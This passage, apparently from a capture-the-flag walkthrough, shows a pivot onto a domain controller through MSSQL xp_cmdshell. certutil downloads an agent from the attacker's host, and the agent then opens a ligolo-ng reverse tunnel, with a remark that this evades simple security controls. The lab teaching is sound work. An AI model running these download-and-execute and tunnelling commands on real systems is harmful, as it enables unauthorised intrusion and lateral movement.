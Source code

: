 
### Uploading the Agent to DC02

Now the clever part — we use our MSSQL access to download the agent!

```sql
xp_cmdshell "certutil -urlcache -split -f http://YOUR_TUN0_IP:8000/agent.exe C:\Users\Public\agent.exe"
```

🎓 **Why certutil?**

`certutil` is a built-in Windows tool originally for certificate management, but it has a hidden feature: downloading files from URLs! We use it because:

- It's already on Windows (no need to install anything)  
- Works through firewalls that might block PowerShell downloads  
- Bypasses some simple security controls

**Verify the upload:**

```sql
xp_cmdshell "dir C:\Users\Public\agent.exe"
```

You should see the file size: `6,694,400 bytes`

---

### Connecting the Agent

Execute the agent with your proxy's IP and fingerprint:

```sql
xp_cmdshell "C:\Users\Public\agent.exe -connect YOUR_TUN0_IP:443 -accept-fingerprint YOUR_FINGERPRINT -ignore-cert"
```

⏱️ The command will timeout — this is normal! The agent is now running in the background on DC02.

---

### Activating the Tunnel

Switch to your ligolo-ng proxy terminal. You should see:

```
INFO[xxxx] Agent joined. id=00155df25c01 name="darkzero-ext\svc_sql@DC02"
```

🎉 The agent connected!

Now configure the tunnel:

```
session # List available sessions
1 # Select session 1
ifconfig # View DC02's network interfaces
```
